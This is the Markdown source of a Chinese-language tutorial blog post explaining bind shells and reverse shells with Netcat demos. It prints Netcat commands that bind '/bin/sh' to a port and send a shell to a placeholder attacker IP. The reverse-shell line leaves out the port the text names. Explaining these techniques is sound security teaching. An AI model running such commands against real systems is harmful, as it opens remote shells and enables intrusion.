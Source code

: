 ```yaml
---
id: "06f2b810960ff302feca626e7ecb1870829c37e4"
title: "Bind Shell 與 Reverse Shell"
description: ""
date: 2021-01-10T21:00:59+08:00
draft: false
featureImage: "/images/hero-main.jpg"
images:
    - "/images/og_image.png"
categories:
    - 資訊安全
tags:
    - 攻擊手法
    - Netcat
    - 遠端執行指令攻擊
---
```


Bind Shell 與 Reverse Shell 是兩種常見的遠端執行指令的技術，讓攻擊者可以向目標主機發送並執行指令，常與檔案上傳漏洞 (File Upload Vulnerabilities) 搭配使用。

這是我在研究檔案上傳漏洞時發現的一個有趣的攻擊手法，所以把它記錄下來，但也沒有太深入去專研，所以讀完本文不會讓你精通，只會讓你簡單了解並知道如何使用。

本文將使用 Netcat 來 Demo。

<!--more-->

## Bind Shell

Bind Shell 是在目標主機中，將 Shell (或其他執行的程式) 綁定在某一個 Port 上，執行由那個 Port 收到的指令，而攻擊者就可以建立連線後，利用對這個 Port 發送指令進而執行攻擊指令。

如果防火牆有擋 Port，就不能用這個方式，要改用 [Reverse Shell](#reverse-shell)。

{{<mermaid>}}

graph LR
    subgraph "Bind Shell"
    a[發送攻擊指令] --連線某個 TCP Port-->b
    subgraph 攻擊者
        a
    end
    subgraph 目標
        b[Shell]
    end
    end

{{</mermaid>}}

### Demo

使用 Netcat 示範，並使用本機兩個終端來分別模擬攻擊者與目標主機，而 Port 將使用 1234。

#### 執行步驟

1. 於目標上監聽 Port 1234，並使用 sh 去執行。
   
   ```bash
   nc -l -v -p 1234 -e /bin/sh
   ```
   
2. 攻擊者與 Port 1234 建立連線。
   
   ```bash
   nc <目標 IP> 1234
   ```

3. 下達攻擊指令 (為了模擬，使用 `pwd` 代替)

{{< img src="/images/2021/bind_shell_demo.png" caption="Bind Shell Demo (左為攻擊者 / 右為目標)" >}} 

可以看到圖中，攻擊者執行 `pwd` 拿到了目標主機的路徑，也就代表有成功執行遠端指令。

## Reverse Shell

Reverse Shell 剛好跟 Bind Shell 相反，是在攻擊者這邊監聽一個 Port，然後將目標主機與這個 Port 建立連線，再將收到的指令由 Shell (或其他執行的程式) 執行。

常用於因為防火牆規則無法與其他 Port 建立連線時，但可以對外連線時使用。

{{<mermaid>}}

graph RL
subgraph "Reverse Shell"
    b --連線某個 TCP Port-->a[發送攻擊指令]
subgraph 攻擊者
    a
end
subgraph 目標
    b[Shell]
end
end

{{</mermaid>}}

### Demo

使用 Netcat 示範，並使用本機兩個終端來分別模擬攻擊者與目標主機，而 Port 將使用 1234。

#### 執行步驟

1. 攻擊者監聽 Port 1234。
   
   ```bash
   nc -l -v -p 1234
   ```

2. 目標主機與攻擊者的 Port 1234 建立連線，並使用 sh 去執行。
   
   ```bash
   nc <攻擊者 IP> -e /bin/sh
   ```

3. 下達攻擊指令 (為了模擬，使用 `pwd` 代替)

{{< img src="/images/2021/reverse_shell_demo.png" caption="Reverse Shell Demo (左為攻擊者 / 右為目標)" >}}

可以看到圖中，攻擊者執行 `pwd` 拿到了目標主機的路徑，也就代表有成功執行遠端指令。

## 備註

雖然現在在 Linux 上直接安裝的 Netcat 不會帶有 `-e` 的參數，但還是有其他的替代方式可以使用，但本文 Demo 只為了簡單講解其運作方式，使用 `-e` 的方式執行。
